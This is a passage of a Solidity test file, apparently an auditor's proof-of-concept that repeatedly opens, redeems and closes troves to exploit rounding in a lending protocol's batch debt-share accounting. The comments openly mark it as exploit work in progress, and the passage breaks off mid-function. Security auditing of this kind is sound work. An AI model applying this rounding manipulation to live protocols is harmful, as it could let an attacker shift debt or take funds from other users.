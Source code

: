 ```solidity
        LatestBatchData memory afterBatch = troveManager.getLatestBatchData(address(B));

        assertEq(b4Batch.entireDebtWithoutRedistribution + 1, afterBatch.entireDebtWithoutRedistribution, "Debt is credited to batch");
        
        // Closing A here will credit to B and Batch, that's ok but not enough

        LatestTroveData memory trove = troveManager.getLatestTroveData(BTroveId);
        uint256 bEntireDebtB4 = trove.entireDebt;


        vm.startPrank(A);
        collateralRegistry.redeemCollateral(bEntireDebtB4, 100, 1e18); // 2 debt, 1 share (hopefully)
        vm.stopPrank();

        uint256 sharesAfterRedeem = _getBatchDebtShares(BTroveId);
        assertEq(sharesAfterRedeem, 1, "Must be down to 1, rebased");

        // Verify B has 1 share, 2 debt
        LatestTroveData memory bAfterRedeem = troveManager.getLatestTroveData(BTroveId);
        assertEq(bAfterRedeem.entireDebt, 1, "Must be 1, Should be 2 for exploit"); // NOTE: it's one because of the division on total shares

        closeTrove(A, ATroveId); // Close A (also remove from batch is fine)

        LatestTroveData memory afterClose = troveManager.getLatestTroveData(BTroveId);
        assertEq(afterClose.entireDebt, 2, "Becomes 2"); // Note the debt becomes 2 here because of the round down on what A needs to repay

        // Figure out how we can get it to round as we want it to

        // NOTE: Repeteable block (note the + on the MIN_DEBT, we need to get a rounding error else we won't skip on 1 share)
        uint256 anotherA = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT + 1, B, MIN_ANNUAL_INTEREST_RATE);
        _logTrovesAndBatch(B, BTroveId);
        _logTroveInBatch(anotherA);
        closeTrove(A, anotherA);
        _logTrovesAndBatch(B, BTroveId);

        // Same as above
        anotherA = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MIN_ANNUAL_INTEREST_RATE);
        _logTrovesAndBatch(B, BTroveId);
        _logTroveInBatch(anotherA);
        closeTrove(A, anotherA); /// But it's crediting those shares to us
        _logTrovesAndBatch(B, BTroveId);
    }

    // Different POC
    // Create the Rebase
    // Re-instantiate the Trove


    function _fibLoopNoChecks(uint256 amt) internal {
        uint256 anotherA = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MIN_ANNUAL_INTEREST_RATE);
        _addDebtAndEnsureItDoesntMintShares(anotherA, A, amt);
        closeTrove(A, anotherA);
    }

    function _logTroveDebtMathComponents(address batch, uint256 troveId) internal {
```